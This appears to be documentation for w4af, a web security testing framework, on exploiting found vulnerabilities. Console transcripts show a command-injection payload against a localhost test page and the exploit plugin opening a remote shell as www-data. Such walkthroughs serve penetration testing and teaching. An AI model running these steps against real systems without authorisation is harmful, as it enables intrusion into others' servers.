 Exploiting Web application vulnerabilities
==========================================

``w4af`` allows users to exploit Web application vulnerabilities in an automated
manner. The vulnerabilities to be exploited can be identified using ``audit``
plugins or manually by the user (and then the vulnerability details are provided
to ``w4af``).

During the scan vulnerabilities are found and stored in specific locations of
the knowledge base, from where exploit plugins can read and use the stored
information to exploit the vulnerability. Exploiting a vulnerability identified
by an audit plugin is easy:

.. code-block:: none

    w4af>>> plugins
    w4af/plugins>>> audit os_commanding
    w4af/plugins>>> back
    w4af>>> target
    w4af/config:target>>> set target http://localhost/w4af/os_commanding/v.php?command=f0as9
    w4af/config:target>>> back
    w4af>>> start
    Found 1 URLs and 1 different points of injection.
    The list of URLs is:
    - http://localhost/w4af/os_commanding/v.php
    The list of fuzzable requests is:
    - http://localhost/w4af/os_commanding/v.php | Method: GET | Parameters: (command)
    Starting os_commanding plugin execution.
    OS Commanding was found at: "http://localhost/w4af/os_commanding/v.php", using HTTP method GET.
    The sent data was: "command=+ping+-c+9+localhost". The vulnerability was found in the request with id 5.
    Finished scanning process.
    w4af>>> exploit
    w4af/exploit>>> exploit os_commanding
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding_shell object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19")>
    Please use the interact command to interact with the shell objects.
    w4af/exploit>>> interact 0
    Execute "end_interaction" to get out of the remote shell.
    Commands typed in this menu will run on the remote web server.
    w4af/exploit/os_commanding-0>>> ls
    v.php
    v2.php
    v3.php
    w4af/exploit/os_commanding-0>>> end_interaction
    w4af/exploit>>> back
    w4af>>>

Exploiting one you've found manually, requires you to provide some input:

.. code-block:: none

    w4af>>> kb
    w4af/kb>>> help
    | list            | List the items in the knowledge base.
    | add             | Add a vulnerability to the KB
    w4af/kb>>> add os_commanding 
    w4af/kb/config:os_commanding>>> view
    | operating_system         | Remote operating system (linux or windows).
    | name                     | Vulnerability name (eg. SQL Injection)
    | url                      | URL (without query string parameters)
    | vulnerable_parameter     | Vulnerable parameter
    | separator                | Command separator used for injecting commands.
    | data                     | Query string or postdata parameters in url-encoded form
    | method                   | HTTP method
    w4af/kb/config:os_commanding>>> 

You simply ``set`` all the configuration settings and then execute ``save`` and
``back`` to store your vulnerability in the knowledge base. Once the information
is there you'll be able to follow the same steps:

.. code-block:: none

    w4af>>> exploit
    w4af/exploit>>> exploit os_commanding
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding_shell object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19")>
    Please use the interact command to interact with the shell objects.
